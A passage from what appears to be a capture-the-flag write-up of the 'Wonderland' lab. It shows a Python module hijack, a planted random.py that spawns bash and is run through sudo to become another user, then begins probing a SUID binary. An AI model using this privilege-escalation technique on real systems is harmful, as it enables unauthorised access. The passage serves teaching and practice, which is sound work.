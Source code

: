 

that was a bit technical and needed some "searching"

This was also the best part for me. You can actually hijack the path that python library due to the `import random`


```
alice@wonderland:~$ ls
random.py  root.txt  walrus_and_the_carpenter.py
alice@wonderland:~$ cat random.py
import os
os.system("/bin/bash")

```

python will check the script folder before its own libraries folder, which is funny

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
[sudo] password for alice: 
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

Finally! we caught that rabbit! still not root though

## Privilege escalation

The rabbit got a SUID binary in his home folder

```
rabbit@wonderland:/home/rabbit$ ls -al
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty

rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sun, 23 Oct 2022 19:46:28 +0000
Ask very nicely, and I will give you some tea while you wait for him
tea please
Segmentation fault (core dumped)

```
Interresting behaviour...binary analysis it is

```
rabbit@wonderland:/home/rabbit$ which r2
rabbit@wonderland:/home/rabbit$ which gdb
```
[How can I work in these conditions?](/thm/wonderland/teaParty)
